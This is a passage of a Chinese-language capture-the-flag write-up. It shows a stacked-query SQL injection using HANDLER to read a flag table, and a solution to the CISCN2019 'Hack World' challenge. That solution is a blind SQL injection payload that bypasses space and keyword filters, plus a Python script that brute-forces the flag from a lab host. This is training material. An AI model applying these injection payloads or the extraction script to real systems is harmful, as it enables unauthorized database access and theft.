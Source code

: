 ```
http://215e031d-2bb6-4870-b01d-6fb4cfa685c5.node4.buuoj.cn:81/
?inject=1';handler FlagHere open;handler FlagHere read first;#
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208242048413.png)

## [CISCN2019 华北赛区 Day2 Web1]Hack World

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208242114225.png)

数字型盲注, 过滤了空格 and or 这些

`=` + 括号绕过

```sql
id=1=if(ascii(substr((select(flag)from(flag)),1,1))=102,1,0)
```

因为 `-` 也被过滤了, 所以还是转成 ascii 方便一些

python 脚本

```python
import time
import requests

dicts='flag{bcde-1234567890}'

url = 'http://e22b868b-c929-4bad-8e3f-1362d21e37d3.node4.buuoj.cn:81/index.php'

flag = ''

for i in range(100):
    for s in dicts:
        time.sleep(1)
        data = {
            'id': f"1=if(ascii(substr((select(flag)from(flag)),{i},1))={ord(s)},1,0)"
        }
        #print('test',s)
        res = requests.post(url,data=data, timeout=30)
        if 'glzjin' in res.text:
            flag += s
            print(flag)
            break
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208242201451.png)
